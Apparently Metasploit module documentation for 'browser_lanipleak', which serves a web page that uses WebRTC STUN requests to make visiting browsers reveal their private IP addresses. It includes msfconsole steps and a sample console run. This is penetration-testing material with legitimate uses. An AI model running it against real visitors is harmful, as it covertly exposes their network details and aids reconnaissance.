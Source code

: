 ## Vulnerable Application

This module retrieves a browser's network interface IP addresses using WebRTC. However, after visiting the HTTP server, the browser can disclose a private IP address in a STUN request.

Related links : https://datarift.blogspot.in/p/private-ip-leakage-using-webrtc.html

## Verification Steps

    Start msfconsole
    use auxiliary/gather/browser_lanipleak
    Set SRVHOST
    Set SRVPORT
    run (Server started)
Visit server URL in any browser which has WebRTC enabled

## Scenarios

```
msf auxiliary(gather/browser_lanipleak) > show options 

Module options (auxiliary/gather/browser_lanipleak):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.1.104    yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(gather/browser_lanipleak) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(gather/browser_lanipleak) > 
[*] Using URL: http://192.168.1.104:8080/mIV1EgzDiEEIMT
[*] Server started.

[*] 192.168.1.104: Sending response (2523 bytes)
[+] 192.168.1.104: Found IP address: X.X.X.X
```
